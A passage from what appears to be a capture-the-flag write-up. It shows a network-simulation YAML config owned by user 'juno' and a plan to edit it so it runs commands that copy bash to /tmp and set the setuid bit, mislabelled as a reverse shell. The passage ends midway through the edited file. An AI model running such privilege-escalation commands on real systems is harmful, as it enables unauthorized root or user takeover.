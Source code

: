 The user juno owns this curious file called `network-simulation.yml` which is a config file and it has the following content

```yml
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/python3
      args: -m http.server 80
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/curl
      args: -s server
      start_time: 5s
```

And we can see in the server and client sections that it is executing python3 and curl binaries with some params and start time defined. Lets try to get a reverse shell for the user juno. We can copy the bash binary and give us permission to execute. To this we have to adapt the file to execute the following commands

```text
cp /bin/bash /tmp/bash
chmod u+s /tmp/bash
```

The file will look like this

```bash
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
```